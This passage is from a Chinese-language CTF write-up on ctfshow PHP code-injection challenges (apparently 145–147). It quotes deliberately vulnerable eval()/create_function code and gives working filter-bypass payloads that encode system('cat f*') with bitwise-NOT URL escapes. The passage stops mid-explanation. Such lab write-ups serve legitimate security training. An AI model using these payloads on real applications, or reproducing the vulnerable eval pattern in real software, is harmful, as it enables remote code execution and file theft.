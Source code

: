 +-*/都被过滤了，这里用三元运算符exp1?exp2:exp3

```
?v1=%0a1&v2=%0a0&v3=?(~%8c%86%8c%8b%9a%92)(~%9c%9e%8b%df%99%d5):
```

### 146

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

`:`被ban了，用`|`

```
?v1=1&v2=1&v3=|(~%8c%86%8c%8b%9a%92)(~%9c%9e%8b%df%99%d5)|
```

比较`==`也可以

```
?v1=1&v3===(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)|&v2=1
```



## 147-create_function代码注入

```php
if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }
}
```

看正则，要在$ctfshow匹配到一个非数字字母下划线的字符

而要能执行函数，要找的这个字符得是不影响函数使用的

（可以暴力跑）

原理：
